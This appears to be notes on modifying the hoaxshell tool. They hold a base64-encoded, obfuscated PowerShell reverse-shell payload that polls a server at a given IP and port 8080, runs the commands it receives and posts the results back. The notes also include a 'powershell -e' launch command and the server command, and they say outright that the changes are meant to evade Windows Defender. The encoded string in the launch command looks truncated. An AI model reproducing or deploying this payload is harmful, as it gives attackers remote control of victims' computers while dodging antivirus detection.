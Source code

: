 # Below is the above obsfuscated command re encoded to base64 string
# ie: $ echo "foo" | base64

ID0njiflejIzNC4yNTIuMTQwOjgwODAnOz0nNmJjODg4NmItZTMxM2Y2MjUtZDM5MzA0ODEnOz0n
aHR0cDovLyc7PUludm9rZS1SZScnc3RNJydldGhvZCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgLzZi
Yzg4ODZiIC1IZWFkZXJzIEB7QXV0aG9yaXphdGlvbj19O3doaWxlICgpez0oSW4ndidvaycnZS1S
ZXMnJ3RNZXRob2QgLVVzZUJhc2ljUGFyc2luZyAtVXJpIC9lMzEzZjYyNSAtSGVBRGVycyBAe0F1
dGhvcml6YXRpb249fSk7aWYgKCAtbmUgJ05vbmUnKSB7PWknJ2UnJ3ggIC1FcnJvckFjdGlvbiBT
dG9wIC1FcnJvclZhcmlhYmxlIGU7PU91dC1TdCdyJ2knJ25nIC1JbnB1dE9iamVjdCA7PUludm9r
ZS1SZXN0J01lJ3QnaCdvZCAtVXJpIC9kMzkzMDQ4MSAtTWV0aG9kIFBPU1QgLUhlYWRlcnMgQHtB
dXRob3JpemF0aW9uPX0gLUJvRFkgKFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0
ZXMoKykgLWpvaW4gJyAnKX0gc2xlJ2UncCAwLjh9Cg==

# Now open a powershell prompt or a command promt and issue the following:

powershell -e 4yNTIuMTQwOjgwODAnOz0nNmJjODg4NmItZTMxM2Y2MjUtZDM5MzA0ODEnOz0n
aHR0cDovLyc7PUludm9rZS1SZScnc3RNJydldGhvZCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgLzZi
Yzg4ODZiIC1IZWFkZXJzIEB7QXV0aG9yaXphdGlvbj19O3doaWxlICgpez0oSW4ndidvaycnZS1S
ZXMnJ3RNZXRob2QgLVVzZUJhc2ljUGFyc2luZyAtVXJpIC9lMzEzZjYyNSAtSGVBRGVycyBAe0F1
dGhvcml6YXRpb249fSk7aWYgKCAtbmUgJ05vbmUnKSB7PWknJ2UnJ3ggIC1FcnJvckFjdGlvbiBT
dG9wIC1FcnJvclZhcmlhYmxlIGU7PU91dC1TdCdyJ2knJ25nIC1JbnB1dE9iamVjdCA7PUludm9r
ZS1SZXN0J01lJ3QnaCdvZCAtVXJpIC9kMzkzMDQ4MSAtTWV0aG9kIFBPU1QgLUhlYWRlcnMgQHtB
dXRob3JpemF0aW9uPX0gLUJvRFkgKFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0
ZXMoKykgLWpvaW4gJyAnKX0gc2xlJ2UncCAwLjh9Cg==

# After a day of fuckery with base64 re encoding  issues, I just hacked the 
# source code to output the strings in base64 that are now undetectabl;e by
# Windows Defender 
#
# Use ./hoaxshell.py -s 172.234.252.140 -i -H "Authorization" to get things 
# running on your server - change the ip address to your server ip
#
# I changed the following 2 files
# ~/hoaxshell/payload_templates/http_payload.ps1

